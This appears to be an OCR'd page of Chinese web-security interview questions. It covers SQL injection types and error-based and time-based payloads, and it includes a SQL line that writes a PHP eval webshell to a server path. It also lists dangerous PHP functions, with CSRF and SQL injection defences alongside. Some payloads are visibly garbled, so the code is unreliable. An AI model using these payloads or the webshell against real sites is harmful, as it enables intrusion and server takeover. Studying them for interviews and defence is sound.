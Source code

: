 [https://blog.csdn.net/weixin_46128614/article/details/104970134](https://blog.csdn.net/weixin_46128614/article/details/104970134)

**41、sql 注⼊的⼏种类型？**<br />1）报错注⼊<br />2）bool 型注⼊<br />3）延时注⼊<br />4）宽字节注⼊

** 42、报错注⼊的函数有哪些？**10 个
```bash
1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】
2）通过floor报错 向下取整3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
4）.geometrycollection()select from test where id=1 and geometrycollection((select from(selectfrom(select user())a)b));
5）.multipoint()select from test where id=1 and multipoint((select from(select from(select user())a)b));
6）.polygon()select from test where id=1 and polygon((select from(select from(select user())a)b));
7）.multipolygon()select from test where id=1 and multipolygon((select from(select from(select user())a)b));
8）.linestring()select from test where id=1 and linestring((select from(select from(select user())a)b));
9）.multilinestring()select from test where id=1 and multilinestring((select from(select from(select user())a)b));
10）.exp()select from test where id=1 and exp(~(select * from(select user())a));
```
**   43、延时注⼊如何来判断？  **
```bash
if(ascii(substr(“hello”, 1, 1))=104, sleep(5), 1)
```
**44、盲注和延时注⼊的共同点？**<br />都是⼀个字符⼀个字符的判断

**45、如何拿⼀个⽹站的 webshell？**<br />上传，后台编辑模板，sql 注⼊写⽂件，命令执⾏，代码执⾏， ⼀些已经爆出的 cms<br />漏洞，⽐如 dedecms 后台可以直接建⽴脚本⽂件，wordpress 上传插件包含脚本⽂件 zip 压缩包等

**46、sql 注⼊写⽂件都有哪些函数？**
```bash
select '⼀句话' into outfile '路径'
select '⼀句话' into dumpfile '路径'
select '<?php eval($_POST[1]) ?>' into dumpfile 'd:\wwwroot\baidu.com\nvhack.php';
```
**47、如何防⽌ CSRF?1）验证 referer**<br />2）验证 token<br />详细：[http://cnodejs.org/topic/5533dd6e9138f09b629674fd](http://cnodejs.org/topic/5533dd6e9138f09b629674fd)

**48、owasp 漏洞都有哪些？**<br />1）SQL 注⼊防护⽅法：<br />2）失效的身份认证和会话管理<br />3）跨站脚本攻击 XSS<br />4）直接引⽤不安全的对象<br />5）安全配置错误<br />6）敏感信息泄露<br />7）缺少功能级的访问控制<br />8）跨站请求伪造 CSRF<br />9）使⽤含有已知漏洞的组件<br />10）未验证的重定向和转发

**49、SQL 注⼊防护⽅法？**<br />1）使⽤安全的 API<br />2）对输⼊的特殊字符进⾏ Escape 转义处理<br />3）使⽤⽩名单来规范化输⼊验证⽅法<br />4）对客户端输⼊进⾏控制，不允许输⼊ SQL 注⼊相关的特殊字符<br />5）服务器端在提交数据库进⾏ SQL 查询之前，对特殊字符进⾏过滤、转义、替换、删除。

**50、代码执⾏，⽂件读取，命令执⾏的函数都有哪些？**
```bash
1）代码执⾏：
eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function
2）⽂件读取：
file_get_contents(),highlight_file(),fopen(),read
file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等
3)命令执⾏：
system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()
```
** 51、img 标签除了 onerror 属性外，还有其他获取管理员路径的办法吗？  **<br /> src 指定⼀个远程的脚本⽂件，获取 referer  
